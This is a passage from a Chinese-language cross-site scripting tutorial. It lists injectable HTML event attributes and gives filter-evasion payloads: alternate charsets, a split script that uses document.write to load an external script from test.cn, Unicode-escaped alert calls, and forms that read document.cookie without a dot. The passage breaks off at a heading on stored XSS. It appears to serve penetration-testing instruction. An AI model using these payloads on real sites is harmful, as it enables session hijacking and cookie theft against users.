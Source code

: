 ###### ⚙️ 脚本执行类属性

- `on*=` — 所有以 `on` 开头的事件处理属性，如 `onclick=`, `onerror=` 等

------

###### 🧩 其他可注入属性

- `name=` — 某些上下文中可影响元素行为或作为关键属性被 JS 引用

------

###### ✅ 温馨提示

实际注入中是否能触发代码执行，还需结合标签上下文、浏览器解析行为及 CSP 等安全策略来判断。


###### 5. 绕过字符集与长度限制

**5.1 使用非标准编码：**

- `UTF-7`
- `US-ASCII`
- `UTF-16`

**5.2 拆分跨站脚本（用于绕过长度限制）：**
```javascript
<script>
  z='<script src=';
  z+='test.c';
  z+='n/1.js><\/script>';
  document.write(z);
</script>
```
执行结果为：
```html
<script src=test.cn/1.js></script>
```

###### 6. JavaScript 层面的绕过技巧

**6.1 Unicode 编码关键字：**
```javascript
<script>a\u006cert(1)</script>
<script>eval('a\u006cert(1)')</script>
```

**6.2 替代点操作符 `.`：**
```javascript
<script>alert(document['cookie'])</script>
<script>with(document)alert(cookie)</script>
```

##### 存储型 XSS 查找

保存型 XSS 漏洞的检测过程与反射型相似，但有关键区别：

###### 提交特殊字符串后进行反复检查
